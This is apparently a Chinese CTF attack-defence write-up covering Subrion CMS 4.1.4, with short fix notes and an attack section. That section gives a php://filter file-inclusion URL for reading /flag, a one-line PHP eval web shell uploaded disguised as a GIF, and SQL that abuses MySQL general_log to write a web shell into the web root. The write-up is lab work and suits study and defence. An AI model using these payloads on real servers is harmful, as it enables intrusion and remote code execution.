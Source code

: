 # bugku-awd小记10.7

## Web

**Subrion CMS 4.1.4**

先把源码copy下来，拿D盾扫一遍

![image-20251007191012280](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834342.png)

#### 1.文件包含漏洞

fix：直接删除

![image-20251007191047854](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834344.png)

#### 2.弱口令+文件上传

![image-20251007191151830](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834345.png)

管理员后台的账户密码是admin/admin，同时可以从config.inc.php 中得到数据库密码![image-20251007191404310](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834346.png)

fix：改admin弱密码

![image-20251007191520845](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834347.png)

然后登录后台看到可以upload，所以攻击时考虑传马

#### 3.sql注入

在panel里

![image-20251007192515325](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834348.png)

Database处可以进行SQL注入，不过flag是错的

![image-20251007192544890](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834349.png)

这里去群里吹水去了，没来得及修



### attack：

#### 1.文件包含

访问，直接能读到flag

```
http://192-168-1-67.pvp6715.bugku.cn/game/index.php/?file=php://filter/convert.base64-encode/resource=/flag
```

#### 2.传马

**上传点：/panel/uploads**

传a.pht

```
GIF89a
<?php  @eval($_REQUEST['huaji']);?>
```

之后访问即可。

![image-20251007192348932](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834350.png)

#### 3.sql注入

panel里的database，先开启general_log

```
set global general_log=on;
```

然后让他写马进去，设置的日志文件路径

```
set global general_log_file="/var/www/html/set_config.php";
select '<?phpeval($_REQUEST[yunsee])?>';
```

这样也可以写马进去

![image-20251007193033553](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834351.png)

## PWN

队友出的，ret2text，签到题

直接读取即可。

![image-20251007193319745](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251007200834352.png)

fix的内容没发出来，就不写（抄）了

